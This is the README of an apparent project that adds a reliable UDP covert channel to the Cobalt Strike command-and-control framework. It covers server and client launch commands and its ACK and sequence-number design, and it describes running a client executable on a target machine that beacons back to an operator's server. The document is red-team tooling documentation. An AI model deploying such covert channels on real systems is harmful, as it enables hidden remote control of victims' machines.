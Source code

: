 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code. 


To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener. 
This channel is configured to run on the default Teamserver port of 2222. 

To start the server, run the following command: 

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver. 
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.) 
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver. 
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  


If you have the MinGW compiler installed, you may compile the client.c code with the following command:

> make

If you do not have the MinGW compiler, you must find another way to compile the client. 
Move the resultant executable to your target machine, and then run it with the following command:

“./client.exe [Python Server IP] [Port] [Pipename] [Target IP] [Target Port]”. (This assumes you named your executable “client.exe”.)

- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py. 
- [Target IP] is the IP address of the machine the client runs on. 
- [Target Port] is the port you wish to communicate through on the target.



# GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP. 

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary. 

The timeout and packet max size are defined in the code. If you change it, it is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back. Currently, the timeout is 5 seconds for the server and 10 seconds for the client. The packet payload max size is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

# CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports. 
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. This may pose stealth issues. 
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server. 

# TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be included as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea I had was be to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK. 
- Allow the user to control the timeout and packet size via commmand line arguments. 
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)

